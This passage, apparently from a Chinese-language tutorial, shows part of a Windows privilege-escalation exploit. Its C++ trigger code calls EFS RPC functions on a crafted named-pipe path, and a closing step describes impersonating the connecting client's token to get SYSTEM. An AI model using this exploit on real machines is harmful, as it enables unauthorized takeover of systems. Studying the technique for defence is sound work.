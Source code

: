 ```c++
            wprintf(L"[+] Invoking EfsRpcGetEncryptedFileMetadata with target path: %ws.\r\n", PipeFileName);

            /*
             *  DWORD EfsRpcGetEncryptedFileMetadata(
             *      [in] handle_t hBinding,
             *      [in, string, ref] wchar_t* FileName,
             *      [out, ref] EFS_RPC_BLOB ** EfsStreamBlob
             *  );
             */

            EFS_RPC_BLOB* EfsStreamBlob;
            result = EfsRpcGetEncryptedFileMetadata(hBinding, PipeFileName, &EfsStreamBlob);
        }

        if (efsId == 12)    // error
        {
            wprintf(L"[+] Invoking EfsRpcSetEncryptedFileMetadata with target path: %ws.\r\n", PipeFileName);

            /*
             *  DWORD EfsRpcSetEncryptedFileMetadata(
             *      [in] handle_t hBinding,
             *      [in, string, ref] wchar_t* FileName,
             *      [in, unique] EFS_RPC_BLOB* OldEfsStreamBlob,
             *      [in, ref] EFS_RPC_BLOB* NewEfsStreamBlob,
             *      [in, unique] ENCRYPTED_FILE_METADATA_SIGNATURE* NewEfsSignature
             *  );
             */

            EFS_RPC_BLOB OldEfsStreamBlob;
            EFS_RPC_BLOB NewEfsStreamBlob;
            ENCRYPTED_FILE_METADATA_SIGNATURE NewEfsSignature;
            result = EfsRpcSetEncryptedFileMetadata(hBinding, PipeFileName, &OldEfsStreamBlob, &NewEfsStreamBlob, &NewEfsSignature);
        }

        LocalFree(PipeFileName);
    }
    RpcExcept(EXCEPTION_EXECUTE_HANDLER);
    {
        wprintf(L"Exception: %d - 0x%08x.\r\n", RpcExceptionCode(), RpcExceptionCode());
    }
    RpcEndExcept
    {
        RpcBindingFree(&hBinding);
    }
}
```

（4）当 `EfsRpcTrigger()` 函数连接至管道后，将调用 `GetSystem()` 函数窃取管道客户端的特权令牌，并在特权令牌的上下文中创建进程。最终，我们将获取 SYSTEM 权限。
